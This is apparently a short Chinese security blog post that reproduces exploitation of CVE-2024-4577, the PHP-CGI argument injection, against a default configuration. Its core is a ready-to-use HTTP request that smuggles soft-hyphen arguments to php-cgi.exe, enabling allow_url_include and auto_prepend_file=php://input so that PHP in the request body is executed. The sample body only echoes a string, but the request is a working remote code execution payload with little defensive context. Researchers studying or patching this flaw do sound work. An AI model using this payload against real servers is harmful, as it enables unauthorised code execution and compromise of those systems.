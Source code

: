 #  PHP-CGI-Argument-Injection 默认配置打法[CVE-2024-4577]   
原创 L0ne1y  安全之道   2024-06-08 10:10  
  
**复现图**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/vtGbWxD3tLbgOABLjuJ3PrQL12jicoTRulS0MkS27TgSM16LW6TiadibKdpr4CGVPwSbvG93WOzytjvR6BkSBI4aw/640?wx_fmt=jpeg&from=appmsg "")  
  
既然MSF Commit公开了打默认配置的方法也就没啥好藏的了，好像有好几个开源项目已经公开了。  
```
GET /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 127.0.0.1

<?php 
echo "L0ne1y";
?>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/vtGbWxD3tLbgOABLjuJ3PrQL12jicoTRud3cx7XmYclEMYqILcWhshL40BG0gJ1YO1o09R5B1z4ubukvOS68Xeg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
**参考**  
  
代码审计星球P神文章(不愧是P神=>PHP的神)  
  
https://serverfault.com/questions/925615/how-to-secure-servers-from-a-cgi-bin-php-post-request-attack  
  

